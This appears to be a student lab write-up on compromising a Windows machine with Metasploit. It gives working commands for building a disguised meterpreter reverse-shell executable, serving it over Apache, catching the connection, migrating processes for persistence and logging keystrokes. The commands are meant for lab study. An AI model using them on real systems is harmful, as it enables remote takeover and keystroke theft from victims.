 # Compromising-windows-using-Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/d1c628d5-ae70-499f-80a9-2a13ccd7c061)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/e31ee43c-f32b-4dbe-8952-71f28ca4fe6b)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/ccb90197-d846-446b-9edf-81b7fd8f1850)

Start apache server sudo systemctl apache2 start
![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/741b1912-c384-4af7-a5f8-d5b399df615c)


Check the status of apache2
![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/68acc408-d223-4f29-a75f-303200d3bf42)

Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/6fc5cb00-1227-41e4-bfb8-d49ba09f2b26)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/fd3d8c0e-7735-4541-b9d3-61234d94d0f5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/03086928-e82a-4f0e-9fc6-fb7f7d825345)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/078d9018-aa91-496a-962d-1ae4d1f64907)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/ddcabbdd-7142-4df5-a0a1-64124a5422e1)



keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/abb9e0f7-45c7-49d4-9548-23693c83d065)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
